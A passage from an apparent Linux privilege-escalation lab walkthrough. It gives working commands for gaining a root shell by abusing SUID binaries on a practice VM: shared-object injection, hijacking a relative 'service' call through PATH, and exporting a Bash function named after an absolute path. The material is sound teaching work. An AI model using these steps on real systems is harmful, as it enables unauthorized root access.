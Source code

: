 `gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`

### Environment Variables

The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

### Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

`strings /usr/local/bin/suid-env2  
`

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

`/bin/bash --version`

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service`

Run the suid-env2 executable to gain a root shell:

`/usr/local/bin/suid-env2`
### Abusing Shell Features (#2)
